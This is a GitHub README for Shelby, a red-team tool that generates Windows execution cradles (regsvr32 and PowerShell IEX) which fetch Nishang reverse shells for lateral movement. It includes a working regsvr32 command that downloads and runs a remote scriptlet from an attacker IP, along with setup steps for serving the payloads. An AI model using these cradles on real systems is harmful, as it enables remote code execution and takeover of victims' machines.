 <p align="center">
  <img alt="By Order of the Peaky Blinders" src="https://i.imgur.com/5n0ly8K.png" height="140"/>
  <p align="center">
    <a href="https://github.com/ad-995/shelby/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/ad-995/shelby.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/issues"><img alt="GitHub issues" src="https://img.shields.io/github/issues/ad-995/shelby.svg?style=flat-square"></a>
    </p>
</p>

<h5 align="center"><i>Execution Cradle Generation!</i></h5>

***

## Introduction

`Shelby` is a Windows Execution Cradle Generator inspired by [PoshC2](https://github.com/nettitude/PoshC2/blob/master/poshc2/server/Payloads.py) and their `PoshC2_Project/quickstart.txt` documentation. 

The aim of this project is to automatically generate several commonly used Execution Cradles for lateral movement. Future releases will include some classic Linux cradles too.

## Cradles
For our initial proof-o'-concept, we have two cradles:
- `regsvr32`
- `powershell IEX (...)`

These can be run with any command execution. When `Shelby` is run, the provided snippets will update with the given IP address and port and are available in plaintext and base64-encoded.

## Shells
Two shells are currently inside `Shelby`, both from [Nishang](https://github.com/samratashok/nishang). We found these to be more reliable:
- [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- [Invoke-PowerShellTcpOneLineBind](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLineBind.ps1)

Additional shells for Windows and Linux coming soon!

## Modularity
Details on how to add cradle and shells to `Shelby` can be found at [ad-995](https://ad-995.group/projects/shelby.html).

## Example
Below is an example output:
![Shelby Output](https://i.imgur.com/G0XRmTS.png)

## Usage
```
usage: shelby.py [-h] -i  [-w] [-p] [-d]

Giver of shells

optional arguments:
  -h, --help            show this help message and exit
  -i , --ip-address     Attacker IP Address
  -p , --cradle-port    Port for receiving shells
  -w , --web-delivery   Port for serving shells
  -d , --directory      Directory for generated payloads
```

There are some important things to note here:
- `--ip-address`: The IP address that the `shells` will call back to.
- `--cradle-port`: The port that the `shells` will call back to.
- `--web-delivery`: The port that the `cradles` will use to retrieve the `shell`.
- `--directory`: The directory in which all the `cradles` and `shells` will be saved to, as well as the `cradle_commands.txt` file. You should run your web delivery server here.

The `cradle_commands.txt` file contains all the Execution Cradle commands. For example:

```
regsvr32:
regsvr32 /s /n /u /i:http://10.10.11.58:80/sctlvjzqylbdzdl scrobj.dll
```

As more Execution Cradles are added, the format will be the same.:

```
Method:
Cradle Command
```

Finally, the easiest usecase here is to serve the `./server_port` directory with `python -m SimpleHTTPServer 80`. 

A project by [mez-0](https://github.com/mez-0) & [michaelranaldo](https://github.com/michaelranaldo)
